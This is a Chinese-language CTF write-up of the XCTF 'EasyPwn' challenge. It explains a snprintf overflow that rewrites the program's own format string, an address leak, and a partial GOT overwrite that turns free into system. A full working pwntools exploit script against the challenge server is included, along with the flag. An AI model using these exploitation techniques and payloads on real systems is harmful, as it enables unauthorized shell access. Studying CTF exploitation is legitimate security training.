

# EasyPwn

[题目地址](https://adworld.xctf.org.cn/challenges/details?hash=e0b4fb17-e276-41f7-97db-2ef982800258_2)

怎么老是忘了有改got表这个姿势呢？

-   Arch:     amd64-64-little
    <Br>RELRO:    Partial RELRO
    <Br>Stack:    Canary found
    <br>NX:       NX enabled
    <Br>PIE:      PIE enabled

差了relro，got表可改写。Partial RELRO=got表可改写，got表改写需要Partial RELRO。一句话用三种方式说，下次再不记得我觉得我还是别玩pwn了。

```c
undefined8 Main(void)
{
  int code;
  void *__buf;
  long in_FS_OFFSET;
  int i;
  char local_18 [8];
  long local_10;
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  for (i = 0; i < 12; i = i + 1) {
    write(1,"Input Your Code:\n",0x11);
    __isoc99_scanf(&DAT_00100e5f,local_18);
    code = atoi(local_18);
    if (code == 1) {
      Vuln();
    }
    else {
      if (code != 2) break;
      __buf = malloc(0x100);
      write(1,"Input Your Name:\n",0x11);
      read(0,__buf,0x100);
      printf("OK!I Know Your Name :%sNow!",__buf);
      free(__buf);
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return 0;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

看到下面的free没有置null，我第一反应是uaf。但是此题并没有利用uaf的地方，整个程序使用__buf的地方只有free和输出名字，和system毫无关系，也没溢出。将战场转向Vuln。



有很明显的栈溢出，包括read和snprintf。难道easyPwn真的这么简单？不可能，你会发现溢出的字符数量不够构造rop链，加上还有pie，rop不起来。知识盲区了，snprintf的溢出直接不知道怎么利用。来个[wp](https://blog.csdn.net/seaaseesa/article/details/103089382)分析分析。

根据snprintf的用法，参数1存储格式化完成后的字符串，参数2是大小，参数3是使用的格式化字符串，剩下的参数都是可变参数，由格式化字符串决定。这里的用法是将local_bf8按照uStack1040中的格式化字符串格式化后输出2000的大小到local_7f8中。虽然ghidra没有把uStack1040在栈上标出，但我们知道是按顺序压入栈中的，因此uStack1040在local_7f8上面，假如local_7f8溢出了会被覆盖掉。那么，我们可以溢出local_7f8，修改格式化字符串，达到任意地址的读写。

这就相当于有个可以任意控制的究极格式化字符串漏洞了，修改free的got表不是问题。不过也有技巧，可以只修改后4字节数据，毕竟free和system在libc中的位置偏差也就那么多，那么它们在内存中的地址，也就最后几字节不一样，我们只需覆盖最后几字节数据即可。这叫pritial write技术。至于为什么修改free，老朋友了，只需要一个参数且自由调用，system的天选替死鬼。

修改got表的前提是有got表。在正式开始改free的got表时，需要先使用一次free。

在进入Vuln函数前，发现栈里有一个__libc_start_main+F0的地址，我们可以利用snprintf把它的值暴露出来。此处需要知道snprintf格式化字符串的特性：snprintf会把格式化字符串的地址记下来，接着在每次处理一个字符时，会从记录的地址处取格式化字符串，然后再根据格式化字符串来处理字符。既然记录的是地址，如果中途地址对应的内容改变了，snprintf也不会管那么多，继续按照改变后的内容输出字符。

两者之间的差距是0x3E8 = 0x7F0(local_7f8位置) – 0x408(uStack1040位置)。ida里看得很清楚，ghidra里还要慢慢调试和计算。payload b"a"*0x3e8 + b"bb%396$p" 前面的a单纯是填充，正好覆盖到格式化字符串的位置。后面两个bb用于覆盖掉原来的格式化字符串%s，最后是完整的用于泄露地址的格式化字符串。溢出地址后算基地址这些相信大家都懂，继续到修改free的got表。

不能把p64(free+2)放格式化字符串的前面，因为p64(free+2)里面有0，会导致snprintf遇到0后就结束，不能读取到后面的格式化字符串。类似这样的payload就很不错：

- b"a"*0x3e8 + (b"bb%" + str(three_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr+2)

0x3e8个a填充，(b"bb%" + str(three_offset).encode() + b"c%133\$hhn").ljust(16,b"A")为覆盖后的格式化字符串，ljust填充到16是为了满足8字节对齐。我们所构造的格式化字符串可能会超过8字节，但不会超过16字节，所以填充到16正好。%133\$hhn将地址写入free_got_addr+2，也就是尾部字节，%133因为free_got_addr+2相对于格式化字符串是第133个参数。

如果got表改写成功，最后选择2输入/bin/sh就可以得到shell了。按照上面那个大佬的脚本失败了，[这个](https://pythontechworld.com/article/detail/BWJUgt51SNeS)成功了。真的太快乐了。

```python
from pwn import *
# from LibcSearcher import * 


context.log_level='debug'
context.terminal = ['terminator', '-x', 'sh', '-c']

io = remote("61.147.171.105",52725)


context(arch = "amd64", os = 'linux')

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
# gdb.attach(io,"b * 0x555555554c05")
payload = b"a"*0x3e8 + b"bb%397$p"
io.sendline(payload)

io.recvuntil("0x")
libc_start_main = io.recv(12)
libc_start_main = int(b"0x"+libc_start_main,16) - 240

log.info("libc_start_main: "+hex(libc_start_main))

libc_start_main_libc = 0x020740
log.info("libc_start_main_libc: "+hex(libc_start_main_libc))
system_addr = 	0x045390
log.info("system_addr: "+hex(system_addr))
offset = libc_start_main_libc - system_addr
# 24C50
system_real_addr = libc_start_main - offset
log.info("system_real_addr: "+hex(system_real_addr))


# libc_searcher = LibcSearcher("__libc_start_main",libc_start_main)
# libc_base = libc_start_main - libc_searcher.dump("__libc_start_main")
# system = libc_base + libc_searcher.dump("system")
# system_real_addr = system
# log.info("system_real_addr: "+hex(system_real_addr))


io.recvuntil("Input Your Code:")
io.sendline("2")
io.recvuntil("Input Your Name:")
io.sendline("healer")

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
payload = b"a"*0x3e8 + b"bb%396$p"
io.sendline(payload)

io.recvuntil("0x")
init_real_addr = io.recv(12)
init_real_addr = int(b"0x"+init_real_addr,16)
log.info("init_real_addr: "+hex(init_real_addr))

elf_base = 0xFFFFFFFFFFFFF000 & init_real_addr
free_got_addr = elf_base + 0x202018
log.info("free_got_addr: "+hex(free_got_addr))

# [*] system_real_addr: 0x7fc35da95fa0
# [*] system_real_addr: 0x7fef74ad8fa0


one_byte = 0x00000000000000FF & system_real_addr
two_byte = (0x000000000000FF00 & system_real_addr) >> 8
three_byte = (0x00000000FF0000 & system_real_addr) >> 16

one_offset = one_byte + 2
two_offset = two_byte + 2
three_offset = three_byte + 2

pattern_payload = (b"bb%" + str(one_offset).encode() + b"c%133$hhn").ljust(16,b"A")
# print(pattern_payload)

# print(one_offset,two_offset,three_offset)


io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
# payload = b"a"*0x3e8 + b"bb%135$p%136$p%137$p%138$p%139$p%140$p%141$p%142$p%143$p%144$p%145$p%146$p"
# payload = b"a"*0x3e0 + p64(free_got_addr) + b"bb%4154793912c%130$n" 
payload = b"a"*0x3e8 + (b"bb%" + str(one_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr) 
# payload = b"a"*0x3e8 + b"bb%8118c%135$hn%5c%136$hhnAAAAAA" + p64(free_got_addr) + p64(free_got_addr+2)
io.sendline(payload)
# 0x00007ffff7a91540 -> 0x7ffff7a523a0
# bb%8118c%135$hn%5c%136$hhnAAAAAA
# payload = b"a"*0x3e8 + b"bb%8118c%135$hn%5c%136$hhnAAAAAA" + p64(free_got_addr) + p64(free_got_addr+2)
# 83:0418│      0x7fffffffd568 —▸ 0x555555756018 —▸ 0x7ffff7a91540 (free) ◂— push   r13
# 84:0420│      0x7fffffffd570 —▸ 0x55555575601a ◂— 0xc6a000007ffff7a9

# 0x7ffff7a59f59 <printf_positional+8697>    mov    word ptr [rax], r15w
# 0x7ffff7a590f7 <printf_positional+5015>    mov    byte ptr [rax], r15b
# 0x7ffff7a59bd6 <printf_positional+7798>    mov    dword ptr [rax], r15d
# 0x7fffffffbfe0 ◂— 0x60186e6868243233

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
payload = b"a"*0x3e8 + (b"bb%" + str(two_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr+1) 
io.sendline(payload)

io.recvuntil("Input Your Code:")
io.sendline("1")
io.recvuntil("Welcome To WHCTF2017:")
payload = b"a"*0x3e8 + (b"bb%" + str(three_offset).encode() + b"c%133$hhn").ljust(16,b"A") + p64(free_got_addr+2) 
io.sendline(payload)


io.recvuntil("Input Your Code:")
io.sendline("2")
io.recvuntil("Input Your Name:")
io.sendline("/bin/sh")


io.interactive()
```

注意这个脚本有几率失败收到EOF，多试几次绝对能成功。而且这次getshell的位置和往常不一样，在根目录，要cd到home下的xctf下才能看到flag。

- ### Flag
  > cyberpeace{078be62ee3abb64f4f6815c8b1b02ebd}